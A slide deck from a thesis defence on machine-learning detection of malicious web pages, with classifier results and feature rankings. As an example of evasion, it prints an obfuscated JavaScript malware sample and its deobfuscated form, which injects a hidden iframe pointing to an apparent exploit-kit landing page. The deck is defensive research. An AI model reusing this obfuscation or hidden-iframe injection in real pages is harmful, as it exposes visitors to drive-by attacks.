








- title : DMWCML
- description : Detection of Malicious Web Content with Machine Learning
- author : Antoine Vianey-Liaud
- theme : sky
- transition : default

***

### Detection of Malicious Web Content with Machine Learning

Antoine Vianey-Liaud

Supervised by Dr. Sergio Maffeis

15/09/2016

***
- data-background : #5d85d5

### Summary

1. Attackers vs Defenders
2. Best practices
3. Methodology and implementation
4. Results
5. Conclusion and future work

***

### Attackers vs Defenders

An endless armrace

***

### Attackers vs Defenders
An example of obfuscation and evasion (1/4)

---

### Attackers vs Defenders

An example of obfuscation and evasion (2/4)

    [lang=Javascript]
    b=new function(){return 2;};

    if(!+b)
        String.prototype.vqwfbeweb='h'+'arC';

    for(i in $='b4h3tbn34')
        if(i=='vqwfbeweb')
            m=$[i];

    try{
        new Object().wehweh();}
    catch(q){
        ss="";}

    try{
        window['e'+'v'+'al']('asdas')}
    catch(q){
        s=String["fr"+"omC"+m+"od"+'e'];}

---

### Attackers vs Defenders

An example of obfuscation and evasion (3/4)

    [lang=Javascript]
    d=new Date();
    d2=new Date(d.valueOf()-2);
    Object.prototype.asd='e';

    if({}.asd==='e')
        a=document["c"+"r"+"e"+"a"+"t"+"e"+"T"+"e"+"x"+"t"+"N"+"o"+"d"+"e"]('321');

    if(a.data==321)
        h=-1*(d-d2);

    n=[-h+7,-h+7, ... ,-h+7,-h+7,-h+123];

    for(i=0;i<n.length;i++)
        ss+=s(eval("n"+"[i"+"]"));

    if(!+b)eval(ss);

---

### Attackers vs Defenders

An example of obfuscation and evasion (4/4)

    [lang=Javascript]
    /* Deobfuscated version */
    if (document.getElementsByTagName('body')[0]){
     iframer();
    }else{
     document.write("<iframe src='http://%71%65%72 ... %66%2E%6D%73
      /main.php?page=b5a87c34230be775' width='10' height='10' 
      style='visibility:hidden;position:absolute;left:0;top:0;'></iframe>");		
    } 
    function iframer(){
     var f = document.createElement('iframe');
     f.setAttribute('src','http://%71%65%72...%2E%6D%73
      /main.php?page=b5a87c34230be775'); 
     f.style.visibility='hidden';f.style.position='absolute';
     f.style.left='0';f.style.top='0';f.setAttribute('width','10');
     f.setAttribute('height','10');
     document.getElementsByTagName('body')[0].appendChild(f);
    }

---

iframe pointing to http://qerfhgkadhsfukhertgrpotgjpoidfg.ce.ms/main.php?page=b5a87c34230be775

Possibly Angler EK landing page

***

### Best practices

***
- data-background : #5d85d5

### Methodology and implementation
1. Training
2. Prediction

***

### Training

***

### Prediction

    [lang=py]
    def predict(url_name):
        clf = joblib.load("Dumps/clf_rforest.pkl")
        X_to_predict = url_to_X(url_name, "Dumps/feat_names.pkl")
        prediction =  clf.predict(X_to_predict)[0]
        return ("Prediction: benign." if prediction == 0 else "Prediction: malicious.")

***

### Prediction

***
- data-background : #5d85d5

### Results
1. Best classifier
2. Best features
3. Demo
4. Click-depth graph

***

### Best classifier

Random Forest

| TP | FP | FN | TN |
|:--:|:--:|:--:|:--:|
|58% |12% |5%  |25% |

| Precision | Recall | F2 |
|:---------:|:------:|:--:|
| 83%       | 92%    | 90%|

---
- data-background : images/randomforest.jpg

---

---

- Accuracy = ( TP + TN ) / ( TP + FP + TN + FN)
- Precision = TP / ( TP + FP )
- Recall = TP / ( TP + FN )
- F2 = 5 Precision*Recall /(4 Precision + Recall) 
- NPP = TN / ( TN + FN )
- Specificity = TN / ( TN + FP )

***
### Best features

- **HTML + Javascript**
    - HTML letters count (43%)
    - Javascript words per line (8%)
 
- **Only Javascript**
    - Keyword 'escape' count (30%)
    - Javascript words per line (9%)

***
### Demo

***
### Click-depth graph

***
### Conclusion

- Best practices
- Prototype of detector
    - Static analysis
    - Selenium
    - Machine Learning
    - Evaluation: browser extension, click-depth graph

***

### Future work

- Enlarge datasets
- Improve predicition performance: cache and whitelist
- Comparison of classifiers 
- Test the detector with a demo website

***

## Thank you 